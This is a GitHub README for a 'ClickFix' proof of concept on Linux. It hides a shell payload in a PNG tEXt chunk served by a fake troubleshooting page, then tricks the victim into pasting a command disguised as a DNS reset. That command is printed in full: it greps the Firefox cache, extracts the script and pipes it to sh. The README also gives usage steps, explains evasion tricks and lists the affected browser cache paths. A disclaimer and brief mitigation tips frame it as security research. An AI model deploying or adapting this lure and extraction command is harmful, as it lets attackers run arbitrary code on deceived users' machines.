

# ClickFix Browser Cache Attack (PoC for linux) 

> **DISCLAIMER:** This project is for **educational and authorized security research only**. Unauthorized use against systems you do not own or have explicit permission to test is illegal. The authors assume no liability for misuse.

## Overview

This PoC demonstrates a **ClickFix-style social engineering attack** that hides malicious shell code inside a PNG image served on a fake Linux troubleshooting webpage. When a victim visits the page, the image is silently cached by their browser. The page then instructs the victim to run a terminal command to "fix their internet". The command extracts and executes the hidden payload from the browser's local cache.

No file is downloaded. No suspicious binary is executed. The payload lives entirely inside a cached image, retrieved through standard Unix tools (`grep`, `strings`, `awk`, `sed`, `sh`).

### Attack Chain



## Clone

```bash
git clone https://github.com/0xbitx/ClickFix_Browser_Cache_Attack_PoC.git
cd ClickFix_Browser_Cache_Attack_PoC
```

## Project Structure

```
ClickFix_Browser_Cache_Attack_PoC/
├── server.py              # Flask lure page (inline HTML, no external files)
├── embed_payload.py       # Embeds payload.sh into any PNG image
├── payload.sh             # Your shell commands (no markers needed)
├── original_image.png     # Input image (auto-generated if missing)
├── malicious_image.png    # Weaponized output
├── extract_from_cache.py  # Optional: Python cache scanner and extractor
└── requirements.txt       # flask
```

## Usage

```bash
# 1. Install dependencies
python3 -m venv venv && ./venv/bin/pip install -r requirements.txt

# 2. Write your payload
echo 'whoami && id' > payload.sh

# 3. Embed payload into an image
./venv/bin/python embed_payload.py original_image.png

# 4. Start the lure server
./venv/bin/python server.py

# 5. Visit http://<ip>:8080 in a Firefox-based browser
#    Image loads and caches -> Copy the command -> Run in terminal
```

## How It Works

### Payload Embedding (`embed_payload.py`)

The payload from `payload.sh` is embedded into a PNG image's **tEXt metadata chunk**. Unlike EXIF metadata (which gets stripped during cache re-encoding), PNG tEXt chunks are part of the file format and survive Firefox/Zen browser caching.

```bash
python3 embed_payload.py [image.png]
```

| Step | Detail |
|---|---|
| Reads `payload.sh` | Raw shell commands, no markers required |
| Prepends `#!/bin/sh` | Automatically if missing |
| Appends `exit #` | Terminates shell and comments out trailing CRC bytes |
| Injects tEXt chunk | Keyword `Z9k` serves as unique fingerprint |
| Output | `malicious_image.png` in the same directory |

The embedder uses zero external libraries. It constructs the PNG binary manually with Python's built-in `struct` and `zlib` modules.

### Lure Page (`server.py`)

A minimal Flask server that serves a single page titled **"Fix: No Internet on Linux"**. The page:

- Displays the weaponized image at the top (loads silently, gets cached)
- Shows a terminal command with a **Copy** button
- Appears to reset DNS cache but actually extracts the hidden payload

The extraction command is built via JavaScript string concatenation (`"tEX"+"tZ9k"`) so the fingerprint keyword never appears contiguously in the raw HTML source. This prevents the cached page itself from being a false positive when `grep` scans the cache.

### Extraction Command

```bash
grep -lah tEXtZ9k ~/.cache/*/*/c*/e*/* ~/.cache/*/*/*/c*/e*/* 2>/dev/null|xargs strings|awk '/tEXtZ9k/,/^exit/'|sed 1d|sh
```

| Stage | What it does |
|---|---|
| `grep -lah tEXtZ9k ...` | Finds the cached PNG by its unique tEXt keyword |
| `xargs strings` | Extracts printable text from the binary |
| `awk '/tEXtZ9k/,/^exit/'` | Isolates lines between the marker and `exit` |
| `sed 1d` | Strips the `tEXtZ9k` header line |
| `sh` | Executes the shell script |

The glob patterns cover both Zen-style paths (`~/.cache/zen/profile/cache2/entries/`) and Firefox-style paths (`~/.cache/mozilla/firefox/profile/cache2/entries/`).

## Supported Browsers

| Browser | Cache Path | tEXt Survives? |
|---|---|---|
| Firefox | `~/.cache/mozilla/firefox/*/cache2/entries/` | Yes |
| Zen | `~/.cache/zen/*/cache2/entries/` | Yes |
| LibreWolf | `~/.cache/librewolf/*/cache2/entries/` | Yes |
| Tor Browser | `~/.cache/torbrowser/*/cache2/entries/` | Yes |
| Waterfox | `~/.cache/waterfox/*/cache2/entries/` | Yes |
| Chrome / Brave / Edge | `~/.cache/*/Cache/Cache_Data/` | No |

This PoC targets Linux only. Chrome-based browsers re-encode cached images and strip tEXt chunks. Firefox-based browsers preserve the original file including all metadata.

## Technical Details

### Why PNG tEXt instead of EXIF?

EXIF metadata is stripped by Firefox and Zen during cache re-encoding. PNG tEXt chunks are part of the PNG specification and survive because they are structurally embedded in the file, not treated as auxiliary metadata.

### Why `exit #` at the end?

The tEXt chunk is followed by 4 CRC bytes in the binary. When `strings` extracts text, these bytes may contain printable ASCII characters that leak into the output. Appending `exit #` handles this:

- `exit` terminates the shell before reaching any trailing garbage
- `#` comments out CRC bytes that immediately follow (dash ignores everything after `#`)

### Why split the keyword in JavaScript?

The cached HTML page is also stored in the browser cache. If the extraction command's fingerprint (`tEXtZ9k`) appeared contiguously in the HTML source, `grep` would match the cached page as a false positive. Splitting it as `"tEX"+"tZ9k"` in JavaScript keeps it visually contiguous in the DOM but fragmented in the cached source file.

## Mitigation

- Never copy and paste terminal commands from websites without understanding what they do
- Be suspicious of tutorials that instruct you to run commands to "fix" something
- Clear browser cache regularly
- Use separate browser profiles with restricted permissions for general browsing

## References

- [SOCRadar: DoubleCup ClickFix Loader](https://socradar.io/blog/doublecup-clickfix-loader-devicemanager-rats/)
- ClickFix social engineering technique: fake errors and CAPTCHAs that trick users into pasting malicious commands

---

**FOR EDUCATIONAL AND AUTHORIZED SECURITY TESTING ONLY.**
